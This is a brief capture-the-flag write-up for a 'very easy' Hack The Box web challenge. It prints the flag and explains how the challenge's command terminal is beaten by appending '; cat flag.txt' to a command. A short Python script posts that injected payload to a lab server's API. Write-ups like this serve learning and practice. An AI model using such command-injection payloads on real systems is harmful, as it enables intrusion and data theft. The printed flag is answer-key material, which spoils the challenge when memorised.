

# Whispers of the moonbeam

## **Challenge Details**
- **Category**: Web
- **Difficulty**: Very Easy
- **Flag**: HTB{Sh4d0w_3x3cut10n_1n_Th3_M00nb34m_T4v3rn_1400cef298d876b0068e3a05822b0649}
- **Description**: 

---

## **Approach**
1. **Initial Observations**
It is a terminal application that accepts commands



2. **Analysis**
Typing commands like `gossip`, `observer` and `examine`, we are provided with linux command output


Using the `;` character, we create a command injection payload and get the flag.

---
## **Solution**
```py
import requests

url = "http://94.237.61.133:51853/api/command"
payload = "examine; cat flag.txt"

data = {"command": payload}
r = requests.post(url, json=data)
print(r.text)
```